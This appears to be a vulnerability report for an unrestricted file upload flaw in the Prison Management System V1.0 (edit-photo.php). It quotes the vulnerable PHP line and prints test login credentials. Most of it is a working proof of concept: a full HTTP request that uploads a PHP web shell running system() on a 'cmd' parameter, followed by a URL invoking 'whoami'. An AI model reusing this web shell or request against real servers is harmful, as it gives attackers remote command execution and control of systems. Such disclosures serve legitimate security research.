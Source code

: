 Prison Management System - File upload on (/Employee/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Employee/edit-photo.php
```

Crudentials:

```
http://url:8888/Account/login.php
releaseme@gmail.com
escobar2012
```



Using `$_FILES["avatar"]["name"]` as the filename on the server can lead to file upload attacks.

```
12: file_get_contents $image = addslashes(file_get_contents($_FILES['userImage']['tmp_name'])); 
requires:
8: if(isset($_POST['btnedit']))
```

```
15: move_uploaded_file move_uploaded_file($_FILES['userImage']['tmp_name'], "../uploadImage/Profile/" . $_FILES['userImage']['name']); 
requires:
8: if(isset($_POST['btnedit']))
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Employee/edit-photo.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------195372709626593574313913679375
Content-Length: 643
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/prison/Employee/edit-photo.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------195372709626593574313913679375
Content-Disposition: form-data; name="userImage"; filename="666.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>

-----------------------------195372709626593574313913679375
Content-Disposition: form-data; name="btnedit"


-----------------------------195372709626593574313913679375--
```

```
http://localhost:8888/uploadImage/Profile/666.php?cmd=whoami
```



